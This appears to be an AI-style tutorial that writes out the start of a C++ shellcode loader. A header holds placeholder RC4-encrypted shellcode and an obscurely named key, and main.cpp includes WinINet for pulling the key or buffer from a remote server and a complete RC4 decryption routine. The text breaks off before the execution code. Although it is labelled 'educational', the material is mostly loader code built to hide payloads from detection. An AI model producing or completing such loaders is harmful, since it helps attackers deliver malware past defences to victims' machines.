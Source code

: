 
Creating a program that reads encrypted shellcode and decrypts it for execution is an advanced technique often used in offensive security, such as red team engagements. Below is a simplified version of such a C++ program for educational purposes. This example includes reading a key and buffer from command-line arguments, a file, or a remote server.

### `buff.h` File
First, let’s define the `buff.h` file with the RC4-encrypted buffer and key:

```cpp
// buff.h
#pragma once

unsigned char encryptedBuffer[] = {
    0x12, 0x34, 0x56, 0x78, /* Add more encrypted shellcode bytes here */
};

char flibbertygibbert[] = "default_key"; // Default RC4 key
```

### C++ Program (`main.cpp`)
Here’s the C++ program that handles decryption, reads the key and buffer from different sources, and executes the decrypted buffer:

```cpp
#include <iostream>
#include <fstream>
#include <string>
#include <windows.h>
#include <wininet.h>
#include "buff.h"

#pragma comment(lib, "wininet.lib")

void rc4(unsigned char* buffer, size_t size, const char* key, size_t key_len) {
    unsigned char S[256];
    unsigned char K[256];
    unsigned char temp;
    int i, j;

    // Initialize S and K arrays
    for (i = 0; i < 256; i++) {
        S[i] = i;
        K[i] = key[i % key_len];
    }

    // Scramble S array using K
    j = 0;
    for (i = 0; i < 256; i++) {
        j = (j + S[i] + K[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }

    // Perform RC4 decryption
    i = 0;
    j = 0;
    for (size_t k = 0; k < size; k++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
        buffer[k] ^= S[(S[i] + S[j]) % 256];
```